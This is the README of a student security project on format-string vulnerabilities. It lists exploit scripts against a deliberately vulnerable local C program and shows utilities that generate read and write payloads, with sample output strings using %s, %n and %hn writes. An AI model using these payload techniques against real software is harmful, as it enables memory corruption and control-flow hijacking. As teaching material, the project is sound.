


# BIT semestral project

## DISCLAIMER

This repository is for educational and informational purposes **only**!

## Contents
```
\_ exploit.py              # overwrite return address
\_ exploit-flag.py         # leak flag
\_ exploit-overflow.py     # exploit 
\_ format_string.c
\_ images/
\_ Makefile
\_ utilities/
    \_ payload_offset.py
    \_ payload_read.py
    \_ payload_write.py
    \_ payload_write_short.py 
```

## Requirements

Tested with Python **3.10**, **3.11** \
Python libraries: **pwntools**

## Usage

[?] - usage\
[C] - command\
[>] - output

Clone repository:\
`https://github.com/Sofurs/bit-semestral-project.git`\
`cd bit-semestral-project`

Compile vulnerable program:\
`make`

Run exploits:
```
[C] ./exploit.py
[>] ������ffdb1d2c3e8
[>] Thisisfromanunreachablefunction!
```

```
[C] ./exploit-flag.py
[>] �WV
[>] SecretFlagForBIT
```

```
[C] ./exploit-overflow.py
[>] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAThis is from an unreachable function!
```

Utility Functions:\

```
[?] Usage: ./utilities/payload_offset.py {number of %x}
[C] ./utilities/payload_offset.py 5
[>] AAAABBBB %x %x %x %x %x %x 
```

```
[?] Usage: ./utilities/payload_read.py {memory address} {format character} {offset}
[?] Address format: 0xXXXXXXXX
[?] Format character: %s/%c/%x/%d/...
[?] Offset - number of octets from $esp to start of buffer
[C] ./utilities/payload_read.py 0x41424344 %s 6
[>] DCBA%7$s
```

```c
[?] Uage: ./utilities/payload_write.py {memory address} {value to write} {offset}
[?] Address and value format: 0xXXXXXXXX
[?] Offset - number of octets from $esp to start of buffer
[C] ./utilities/payload_write.py 0x41424344 0x8040a020 6
[>] DCBAPADDECBAPADDFCBAPADDGCBA%08x%08x%08x%08x%08x%220x%n%128x%n%160x%n%64x%n
```

```
[?] Usage: ./utilities/payload_write_short.py {memory address} {value to write} {offset}
[?] Address and value format: 0xXXXXXXXX
[?] Offset - number of octets from $esp to start of buffer
[C] ./utilities/payload_write_short.py 0x41424344 0x8040a020 6
[>] DCBAFCBA%40984x%7$hn%57376x%8$hn
```

## Format String





